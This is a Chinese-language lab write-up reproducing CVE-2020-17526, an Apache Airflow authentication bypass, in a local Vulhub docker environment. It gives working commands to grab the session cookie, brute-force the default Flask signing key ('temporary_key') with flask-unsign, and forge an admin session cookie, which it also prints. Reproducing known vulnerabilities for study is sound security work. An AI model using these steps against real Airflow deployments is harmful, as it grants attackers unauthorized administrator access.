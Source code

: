 # Apache Airflow 默认密钥导致的权限绕过 CVE-2020-17526

## 漏洞描述

Apache Airflow是一款开源的，分布式任务调度框架。默认情况下，Apache Airflow无需用户认证，但管理员也可以通过指定`webserver.authenticate=True`来开启认证。

在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。

参考链接：

- https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0
- https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise

## 环境搭建

Vulhub执行如下命令启动一个Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

首先，我们访问登录页面，服务器会返回一个签名后的Cookie：

```
curl -v http://localhost:8080/admin/airflow/login
```

![image-20220329105609442](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251947841.png)

然后，使用[flask-unsign](https://github.com/Paradoxis/Flask-Unsign)这个工具来爆破签名时使用的`SECRET_KEY`：

```
# 安装flask-unsign
pip install flask-unsign[wordlist]

# 开始爆破
flask-unsign -u -c [session from Cookie]
```

![image-20220329105921359](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251947842.png)

Bingo，成功爆破出Key是`temporary_key`。使用这个key生成一个新的session，其中伪造`user_id`为1：

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

![image-20220329110052524](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251947843.png)

新生成的session为：

```
eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.YkJ2WQ.sUbyyQy70a2A6FPd6fO6UVAyQ-U
```

在浏览器中使用这个新生成的session，可见已成功登录：

![image-20220329110946880](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251947844.png)

可以使用Chrome插件[EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg/related?hl=zh)对Cookie进行修改。

